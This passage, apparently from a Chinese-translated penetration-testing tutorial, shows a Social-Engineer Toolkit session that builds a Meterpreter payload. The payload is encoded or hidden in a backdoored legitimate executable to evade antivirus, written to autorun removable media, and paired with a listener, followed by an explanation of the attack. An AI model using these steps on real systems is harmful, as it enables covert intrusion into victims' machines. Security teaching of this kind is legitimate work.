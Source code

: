8\. Windows Meterpreter Egress Buster Spawn a meterpreter shell and find a port home via multiple ports
9\. Import your own executable Specify a path for your own executable
Enter choice (hit enter for default):
Below is a list of encodings to try and bypass AV.
Select one of the below, 'backdoored executable' is typically the best.
1\. avoid_utf8_tolower (Normal)
2\. shikata_ga_nai (Very Good)
3\. alpha_mixed (Normal)
4\. alpha_upper (Normal)
5\. call4_dword_xor (Normal)
6\. countdown (Normal)
7\. fnstenv_mov (Normal)
8\. jmp_call_additive (Normal)
9\. nonalpha (Normal)
10\. nonupper (Normal)
11\. unicode_mixed (Normal)
12\. unicode_upper (Normal)
13\. alpha2 (Normal)
14\. No Encoding (None)
15\. Multi-Encoder (Excellent)
16\. Backdoored Executable (BEST)
Enter your choice (enter for default):
[-] Enter the PORT of the listener (enter for default):
[-] Backdooring a legit executable to bypass Anti-Virus. Wait a few seconds...
[-] Backdoor completed successfully. Payload is now hidden within a legit executable.
[*] Your attack has been created in the SET home directory folder "autorun"
[*] Copy the contents of the folder to a CD/DVD/USB to autorun.
[*] The payload can be found in the SET home directory.
[*] Do you want to start the listener now? yes or no: yes
[*] Please wait while the Metasploit listener is loaded... 
```

## 它是如何工作的...

在生成编码的恶意文件之后，Metasploit 监听器开始等待反向连接。这种攻击的唯一限制是可移动媒体必须启用自动运行，否则将需要手动触发。

这种攻击向量在目标用户身后有防火墙的情况下可能会有帮助。现在大多数的杀毒程序都会禁用自动运行，这也使得这种攻击方式变得无效。渗透测试人员除了基于自动运行的攻击之外，还应确保提供一个带有后门的合法可执行文件/PDF 文件。这样可以确保受害者必然会执行其中一个有效载荷。
